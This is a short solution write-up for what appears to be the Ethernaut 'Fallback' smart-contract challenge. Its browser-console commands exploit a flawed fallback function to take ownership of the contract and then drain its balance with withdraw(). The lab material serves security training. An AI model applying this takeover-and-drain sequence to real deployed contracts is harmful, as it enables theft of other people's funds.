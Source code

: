 ## Explanation

Requires you to exploit a poorly implemented [Fallback Function](https://docs.soliditylang.org/en/v0.8.10/contracts.html?highlight=Fallback#fallback-function) to gain control of someone else’s smart contract..

## Solution in console

To solve challange in browser console it is necessary to write:
```bash
# Show contract abi in a table
console.table(contract.abi)
# Show contract owner
await contract.owner();
# Send one Wei to contribute()
await contract.contribute.sendTransaction({value: 1})
# We can see that "contributions[msg.sender] > 0" will give "true" value
console.table(await contract.contributions(player))
# Send one Wei to the fallback function to become owner
await contract.sendTransaction({value: 1});
# Our address
player;
# We can see that our address is set as an owner
await contract.owner();
# Reduce contract balance to 0
await contract.withdraw();
```